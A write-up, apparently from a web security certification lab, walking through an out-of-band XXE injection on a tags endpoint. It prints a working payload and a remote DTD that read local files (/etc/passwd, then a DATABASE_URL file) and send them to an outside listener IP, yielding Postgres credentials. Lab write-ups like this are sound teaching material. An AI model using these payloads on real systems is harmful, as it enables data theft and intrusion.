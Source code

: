 ```yaml
---
title: Challenge 12:When things aren't working, go out of band
date: 2024-05-15 05:04:00 +0800
categories: [Write-Up, CWAE]
tags: [Cert, Write-Up]     # TAG names should always be lowercase
description: This is a detailed writeup created for challenges associated with the Certified Web AppSecurity Expert (CWAE) certification. 
---
```


## Challenge/Task

1. XXE INJECTION

**Proof-of-Concept (POC):**

There is a field “tags” where the system can query the available tags that has been created before on the website

![POC-otb](/img/cwae/wta1.png){: w="400" h="400" }{: .normal }

This is how the server response when we are calling the /tags endpoint. It will listed all tags that are available. 

![POC-otb](/img/cwae/wta2.png){: w="400" h="400" }{: .normal }

With the same technique XXE before, I try to change the content type of Json to XML format and the server seems accept the format too. You can see how the <tag> there. So maybe we can try XXE attack too ?

![POC-otb](/img/cwae/wta3.png){: w="400" h="400" }{: .normal }

However, when I send the same payload as before for XXE, the server did not respond anything. So, we cannot prove if this is vulnerable or not. We need to use Out of Band Technique.

![POC-otb](/img/cwae/wta4.png){: w="400" h="400" }{: .normal }

Out-of-band XXE (XML External Entity) injection is a technique used to exploit XML processors that support external entities, allowing an attacker to extract data from a server without receiving the actual response in-band with the HTTP response.
I will send malicious XML data to the server, typically containing references to an external entity defined in a Document Type Definition (DTD) file. This DTD file is hosted on our VPS server When the server processes the XML input, it resolves the external entity reference, causing the server to make a request to my controlled server to retrieve the entity content.

Payload sends to server
```jsx
<!DOCTYPE data [<!ENTITY % init SYSTEM "file:///etc/passwd"> 
  <!ENTITY % dtd SYSTEM "http://143.198.205.200:9003/d.dtd"> %dtd;]> 
<data>&send;</data>
```

dtd File created in remote server
```jsx
<!ENTITY % all "<!ENTITY send SYSTEM 'http://143.198.205.200:8090/?collect=%init;'> "> %all;
```
![POC-otb](/img/cwae/wta5.png){: w="400" h="400" }{: .normal }

I start to send the payload to the server. We can see the left side showing us the d.dtd is downloaded by the server. However, the /etc/passwd is not showing inside our listeners. 

![POC-otb](/img/cwae/wta6.png){: w="400" h="400" }{: .normal }

We must step back and see what the problem is here. The dtd file is already correct but somehow no result. Something error at the payload send to the server I guess. Previous challenges, we already performed port scanning to the target. We saw a port that is unknown. Further checking, it is a Postgres DB. So, we must change our payload.

![POC-otb](/img/cwae/wta7.png){: w="400" h="400" }{: .normal }


In PostgreSQL, /tmp/env/DATABASE_URL is likely a reference to a temporary file path where an environment variable called DATABASE_URL might be stored. So, we change the /etc/passwd to /tmp/env/DATABASE_URL and send again the request. You can see, our listener starting to collect the response from server. If you noticed, the line there refer to Postgres username and password. We can try it.. 

![POC-otb](/img/cwae/wta8.png){: w="400" h="400" }{: .normal }

We can now successfully login to the Postgres using the username and password.

![POC-otb](/img/cwae/wta9.png){: w="400" h="400" }{: .normal }
